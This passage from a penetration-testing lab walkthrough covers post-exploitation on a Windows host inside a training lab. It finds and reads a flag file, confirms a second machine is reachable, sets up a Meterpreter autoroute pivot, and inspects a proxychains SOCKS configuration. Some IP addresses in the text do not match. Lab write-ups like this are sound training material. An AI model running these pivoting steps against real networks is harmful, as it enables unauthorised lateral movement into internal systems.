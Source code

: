 `shell`, `where /R C:\ flag*`:
```
C:\Users\Administrator\Documents\FLAG1.txt ←
```

`type C:\Users\Administrator\Documents\FLAG1.txt`:
```
8de67f44f49264e6c99e8a8f5f17110c ←
```

**Step 11**: Let's ping demo1.ine.local (`10.0.22.69`) and verify that it is reachable from the second machine.

`ping 10.4.28.92 -n 3`:
```
Pinging 10.4.28.92 with 32 bytes of data:
Reply from 10.4.28.92: bytes=32 time<1ms TTL=128
Reply from 10.4.28.92: bytes=32 time<1ms TTL=128
Reply from 10.4.28.92: bytes=32 time<1ms TTL=128

Ping statistics for 10.4.28.92:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

**Step 12**: Let's pivoting.

`exit`, `run autoroute -s 10.4.28.0/24`, `run autoroute -p`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.4.26.0          255.255.255.0      Session 1
```

`background`, `proxychains --version`:
```
[proxychains] config file found: /etc/proxychains4.conf ←
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
proxychains can't load process....: No such file or directory
```

`cat /etc/proxychains4.conf`:
```
...

[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks4		127.0.0.1	9050 ←
```

